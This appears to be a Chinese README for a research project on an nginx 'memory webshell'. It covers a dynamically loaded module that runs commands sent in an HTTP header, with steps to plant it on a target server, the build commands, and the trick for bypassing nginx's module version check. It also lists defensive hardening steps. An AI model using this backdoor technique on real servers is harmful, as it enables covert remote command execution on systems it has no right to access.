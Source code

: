 # 全链路内存马系列之 nginx 内存马

![](img/webshellattckchain.jpg)
其他内存马
- [ebpf 内核马](https://github.com/veo/ebpf_shell)
- [websocket 内存马](https://github.com/veo/wsMemShell)
- ### 注意
本项目不含有完整的利用工具，仅提供无害化测试程序、防御加固方案，以及研究思路讨论
- ### 测试程序使用方式
测试环境：Nginx 1.18.0

下载测试程序 [releases](https://github.com/veo/nginx_shell/releases) 

将下载的so放至目标服务器上，修改 nginx.conf 配置文件在第一行添加以下内容，path为路径，ngx_http_cre_module.so名称最好不修改。
```
load_module path/ngx_http_cre_module.so
```
然后重载nginx
```
nignx -s reload
```

POST HTTP header `vtoken: whoami` （测试程序只允许使用 `whoami` 命令）
![](img/run.jpg)

- ### 编译方式
```
wget https://nginx.org/download/nginx-1.18.0.tar.gz
tar -zxvf nginx-1.18.0.tar.gz
cd nginx-1.18.0
git clone https://github.com/veo/nginx_shell.git
./configure --with-compat --add-dynamic-module=./nginx_shell/
make modules
```
编译后的so文件位于 nginx-1.18.0/objs/ngx_http_cre_module.so


- ### 一、技术特点
1. 无需临时编译（传统的 nignx so backdoor 需要临时编译）
2. 兼容支持大部分 nignx 版本
3. 无需额外组件支持


- ### 二、技术缺点
1. 有so文件落地
2. 需要 nignx -s reload 权限

- ### 三、技术原理
nginx module 支持动态加载so，通过 __attribute ((constructor))的方式绕过nginx module version check，可以编译出适应所有nginx版本的module。
使用header_filter可以取得命令执行的参数，通过body_filter可以返回命令执行后的结果


- ### 四、研究中遇到的问题
1. 绕过nginx对于module的版本检测

    通过 __attribute ((constructor))的方式绕过


2. 编写的module要兼容大部分版本

    使用较早版本的函数，不使用高版本新增函数


- ### 五、防御加固方案
1. 监测Nginx Module的加载，Nginx进程的行为
2. 查杀落地文件
3. 收敛 nignx -s reload 权限